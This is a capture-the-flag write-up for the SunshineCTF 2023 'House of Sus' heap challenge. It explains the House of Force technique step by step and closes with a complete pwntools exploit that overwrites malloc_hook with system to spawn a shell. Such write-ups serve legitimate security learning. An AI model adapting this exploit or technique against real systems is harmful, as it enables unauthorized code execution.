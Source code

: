 ## Level: Easy

    TLDR: create a chunk and overwrite the wilderness with a very large number due to overflow. This will overlap the target address and resulting in write-what-where, which you can use it to overwrite malloc_hook with system to get a shell.  
  
### Checksec

![checksec](https://github.com/user-attachments/assets/b1f5f164-7791-4db8-80d0-da2e3aeca2af)

### Challenge
  
![menu](https://github.com/user-attachments/assets/24c5f22c-227d-488b-9446-7efe84d7e67e)

Very cool menu :D
We have a heap and a libc leak (option 2).

Also there is an overflow in option 3 so we can create a chunk then overwrite the wilderness (the top chunk's size) with a very large number (e.g. -1). This will make sure that malloc won't use `mmap` for any further allocations because it will think the top chunk has always *enough* space. And this will result in overlapping target address (write-what-where). 

### Approach 

```
1 - Use the overflow in `[3] Call an emergency meeting` to overwrite the wilderness with a very large number.
```

![newwilderness](https://github.com/user-attachments/assets/47fb63ae-68a5-46e8-b76c-bf89da5d1922)

```
2 - Calculate the address of wilderness and the target from the leaks
3 - Allocate a chunk with size of target - top_addr - 0x10 # for metadata
```

![overlapsize](https://github.com/user-attachments/assets/2cb9e4e7-8221-4398-a75d-f3bbffa74f19)


```
4 - Overwrite malloc_hook pointer (the target address) with system
```

![systemoverwrite](https://github.com/user-attachments/assets/f5518ba2-59f8-4808-99ed-6df30c7f0f5e)

```
5 - Call malloc with the address of "/bin/sh" as size to get a shell
```

![flag](https://github.com/user-attachments/assets/bc4a5ea9-72a6-487b-88b8-03b28a7dc0ef)


Calculating the offset for distance was quite painful until I get the hang of it. As always, following sources helped me understand this **House of Force** technique and eventually solve the challenge:

House of force: https://0x434b.dev/overview-of-glibc-heap-exploitation-techniques/#house-of-force

More about the house: https://book.hacktricks.xyz/binary-exploitation/libc-heap/house-of-force

c0nrad's writeup: https://youtu.be/qA6ajf7qZtQ?t=2277

offical(i guess) write up: https://github.com/SunshineCTF/SunshineCTF-2023-Public/blob/main/Pwn/House_of_Sus/house_of_sus_exp.py

get the challenge from: https://github.com/SunshineCTF/SunshineCTF-2023-Public/tree/main/Pwn/House_of_Sus

Thank you to all of them and the author for this cool challenge!

### Full Exploit
```python
#!/usr/bin/env python

from pwn import *
import time

p = gdb.debug("./house_of_sus_patched", gdbscript='''
    c
''')

# p = process("./house_of_sus_patched")

def emergency_meeting(size, response, imposter):
    p.sendline(b"3")
    p.recvuntil(b"tasks >:(\n\n")
    p.sendline(str(size).encode('utf-8'))
    time.sleep(0.5)
    p.sendline(response)
    
    time.sleep(0.5)
    p.sendline(str(imposter).encode('utf-8'))

def do_task():
    p.sendline(b"1")

def report_body(imposter):
    p.sendline(b"2")
    p.recvuntil(b"the seed: ")
    libc_leak = int(p.recvline().strip())
    print("LIBC LEAK:" + hex(libc_leak))
    time.sleep(0.5)
    p.sendline(str(imposter).encode('utf-8'))
    return libc_leak

p.recvuntil(b"joining game: ")

heap_leak = int(p.recvline().strip(), 16)
print("HEAP LEAK: " + hex(heap_leak))

# libc leak thanks to seed in report_body option
p.recvuntil(b"emergency meeting\n\n")
libc_leak = report_body(1)

libc_base = libc_leak - 279440
malloc_hook = libc_base + 4111408
system = libc_base + 324640
binsh = libc_base + 1785224

print("malloc_hook: " + hex(malloc_hook))
print("binsh: " + hex(binsh))

# overwrite the wilderness with "-1"
# so it will overlap the target on the next malloc 
payload = b"A" * 40
payload += p64(0xFFFFFFFFFFFFFFFF)
p.recvuntil(b"emergency meeting\n\n")
emergency_meeting(40, payload, 1)

# calculate where the top chunk size (the wilderness) is 
heap_addr = heap_leak + 88 + 4112

# calculate the distance for malloc_hook
# allocate a chunk with a size of to the distance for malloc_hook
distance = malloc_hook - heap_addr - 0x10  # 0x10 for the metadata 
payload = b"B" * 8
p.recvuntil(b"emergency meeting\n\n")
emergency_meeting(distance, payload, 1)

# overwrite malloc_hook pointer with system
payload = p64(system)
payload += b"C" * 8
p.recvuntil(b"emergency meeting\n\n")
emergency_meeting(30, payload, 1)

# call malloc with "/bin/sh" in size
payload = b'whoami'
binsh = int(binsh)
p.recvuntil(b"emergency meeting\n\n")
emergency_meeting(binsh, payload, 1)

p.interactive()
```
<p align="center">
<img src=https://media1.tenor.com/m/-POqhuRZuEUAAAAd/easy-mode-shinoa-shinoa.gif>
</p>
